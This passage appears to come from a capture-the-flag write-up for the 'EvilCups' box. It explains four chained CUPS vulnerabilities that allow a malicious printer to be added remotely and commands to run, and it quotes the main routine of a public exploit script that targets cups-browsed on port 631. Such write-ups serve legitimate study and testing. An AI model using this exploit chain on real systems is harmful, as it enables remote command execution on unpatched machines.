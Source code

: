 ## Shell as lp

### CUPS CVEs

On 26 September 2024 (a bit more than a week before EvilCups released), a researcher who goes by evilsocket released [research about vulnerabilities in CUPs](https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/). It includes four CVEs:
- [CVE-2024-47176](https://nvd.nist.gov/vuln/detail/CVE-2024-47176) - `cups-browsed`, the service that typically listens on all interfaces UDP 631, is what allows adding a printer to a machine remotely. This vulnerability allows any attacker who can reach this machine to trigger a “Get-Printer-Attributes” Internet Printing Protocol (IPP) request being sent to an attacker-controlled URL. This was patched by just disabling `cups-browsed` as it’s not really the best way to get this functionality any more.
- [CVE-2024-47076](https://nvd.nist.gov/vuln/detail/CVE-2024-47076) - `libcupsfilters` is responsible for handling the IPP attributes returned from the request. These are written to a temporary Postscript Printer Description (PPD) file without sanitization, allowing malicious attributes to be written.
- [CVE-2024-47175](https://nvd.nist.gov/vuln/detail/CVE-2024-47175) - `libppd` is responsible for reading a temporary PPD file and turning that into a printer object on the system. It also doesn’t sanitize when reading, allowing for injection of attacker controlled data.
- [CVE-2024-47177](https://nvd.nist.gov/vuln/detail/CVE-2024-47177) - This vulnerability in `cups-filters` allows for loading a printer using the `foomatic-rip` print filter, which is a universal converter for transforming PostScript or PDF data into the format that the printer can understand. It has long had issues with command injection, and has been limited to manual installs / configurations only.

Combining these four vulnerabilities, I can add a malicious printer to a system remotely and then when it prints a page, the vulnerability will trigger and run my command.

### Create Evil Printer

#### POC Analysis

The box’s author, IppSec, has a [script to exploit this](https://github.com/ippsec/evil-cups) (built from the POCs that are out there already, but with improved stability). The `__main__` function gives a good overview of what the script does:

```

if __name__ == "__main__":
    if len(sys.argv) != 4:
        print("%s <LOCAL_HOST> <TARGET_HOST> <COMMAND>" % sys.argv[0])
        quit()

    SERVER_HOST = sys.argv[1]
    SERVER_PORT = 12345

    command = sys.argv[3]

    server = IPPServer((SERVER_HOST, SERVER_PORT),
                       IPPRequestHandler, MaliciousPrinter(command))

    threading.Thread(
        target=run_server,
        args=(server, )
    ).start()

    TARGET_HOST = sys.argv[2]
    TARGET_PORT = 631
    send_browsed_packet(TARGET_HOST, TARGET_PORT, SERVER_HOST, SERVER_PORT)

    print("Please wait this normally takes 30 seconds...")

    seconds = 0
```